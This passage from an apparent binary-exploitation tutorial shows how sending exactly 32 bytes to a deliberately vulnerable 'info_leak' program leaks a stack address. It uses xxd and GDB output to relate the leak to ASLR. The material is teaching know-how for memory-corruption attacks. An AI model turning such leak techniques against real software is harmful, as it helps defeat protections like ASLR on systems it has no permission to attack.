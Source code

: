 The input is read using the `read()` system call. The first read expects 32 bytes. You can see already that there\'s another `read()` call. That one is the first `read()` call in the `my_memory_write()` function.

As noted above, if we use exactly `32` bytes for name we will end up with a non-null-terminated string, leading to an information leak. Let\'s see how that goes:

```
$ python -c 'import sys; sys.stdout.write(32*"A")' | ./info_leak
hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�)���, what address to modify and with what value?
 
$ python -c 'import sys; sys.stdout.write(32*"A")' | ./info_leak | xxd
00000000: 6865 6c6c 6f20 4141 4141 4141 4141 4141  hello AAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 f0dc ffff ff7f 2c20 7768  AAAAAA......, wh
00000030: 6174 2061 6464 7265 7373 2074 6f20 6d6f  at address to mo
00000040: 6469 6679 2061 6e64 2077 6974 6820 7768  dify and with wh
00000050: 6174 2076 616c 7565 3f0a                 at value?.
```

We see we have an information leak. We leak one piece of data above: `0x7fffffffdcf0`. If we run multiple times we can see that the values for the first piece of information differs:

``` {.code .bash}
$ python -c 'import sys; sys.stdout.write(32*"A")' | ./info_leak | xxd | grep ','
00000020: 4141 4141 4141 f0dc ffff ff7f 2c20 7768  AAAAAA......, wh
```

The variable part is related to a stack address (it starts with `0x7f`); it varies because ASLR is enabled. We want to look more carefully using GDB and figure out what the variable value represents:

``` {.code .bash}
$ gdb -q ./info_leak
Reading symbols from ./info_leak...done.
gdb-peda$ b my_main
Breakpoint 1 at 0x400560
gdb-peda$ r < <(python -c 'import sys; sys.stdout.write(32*"A")')
Starting program: info_leak < <(python -c 'import sys; sys.stdout.write(32*"A")')
[...]
 
# Do next instructions until after the call to printf.
gdb-peda$ ni
....
 
gdb-peda$ x/12g name
0x7fffffffdc20: 0x4141414141414141  0x4141414141414141
0x7fffffffdc30: 0x4141414141414141  0x4141414141414141
0x7fffffffdc40: 0x00007fffffffdc50  0x00000000004007aa
gdb-peda$ x/2i 0x004007aa
   0x4007aa <main+9>:  mov    edi,0x4008bc
   0x4007af <main+14>: call   0x400550 <puts@plt>
gdb-peda$ pdis main
Dump of assembler code for function main:
   0x00000000004007a1 <+0>:    push   rbp
   0x00000000004007a2 <+1>:    mov    rbp,rsp
   0x00000000004007a5 <+4>:    call   0x400756 <my_main>
   0x00000000004007aa <+9>:    mov    edi,0x4008bc
   0x00000000004007af <+14>:   call   0x400550 <puts@plt>
   0x00000000004007b4 <+19>:   mov    eax,0x0
   0x00000000004007b9 <+24>:   pop    rbp
   0x00000000004007ba <+25>:   ret    
End of assembler dump.
gdb-peda$  
```
